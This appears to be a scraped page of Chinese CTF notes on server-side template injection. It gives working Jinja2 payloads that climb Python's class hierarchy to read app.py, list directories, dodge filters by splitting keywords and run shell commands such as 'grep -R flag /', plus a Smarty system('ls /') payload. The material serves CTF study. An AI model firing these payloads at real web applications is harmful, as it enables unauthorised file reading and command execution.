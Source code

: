 ###### {%%}

https://blog.csdn.net/Alexhcf/article/details/108400293

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
{% endif %}{% endfor %}

这段代码看起来像是某种模板引擎（例如Jinja2，经常在Flask web框架中使用）中的代码。它试图执行一些危险的操作，具体解释如下：

[].__class__.__base__.__subclasses__()：这行代码的目的是获取Python中所有类的子类列表。[] 是一个空列表，.__class__ 获取其类（即 list），.__base__ 获取其父类（即 object），然后 .__subclasses__() 获取所有子类。

{% for c in [].__class__.__base__.__subclasses__() %}：这是一个模板循环，遍历上面提到的所有子类。

{% if c.__name__=='catch_warnings' %}：这个条件判断检查当前遍历到的类 c 的名称是否为 'catch_warnings'。

{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}：如果条件满足（即找到了名为 'catch_warnings' 的类），则执行这行代码。这行代码的目的是：

c.__init__.__globals__：获取 catch_warnings 类的 __init__ 方法的全局变量字典。
['__builtins__']：从全局变量字典中获取 __builtins__ 模块。__builtins__ 模块包含了许多内置函数和异常。
.open('app.py','r')：使用 __builtins__ 中的 open 函数以只读模式打开名为 'app.py' 的文件。
.read()：读取该文件的内容。
总的来说，这段代码的目的是在一个模板中尝试读取名为 'app.py' 的文件的内容，但它通过一种非常隐蔽和危险的方式来做这件事。这种代码通常被认为是恶意代码，因为它试图执行未授权的文件读取操作，并且它使用了不常见且易于被忽视的方法来隐藏其真实意图。如果你在你的项目中发现了这样的代码，建议立即删除并进行安全审查。




{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}

//拼接绕过

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}



```

```
搜索目录下带有flag字符串的文件名：

{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('**find / -name *flag***').read()")}}
1
输出结果没什么用，所以我们转而搜索根目录下带有flag内容的文件：

{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('grep -R flag /').read()")}}
1
等待时间可能比较长，最后得到flag。

```

#### smarty

```
{if system('ls /')}{/if}
```

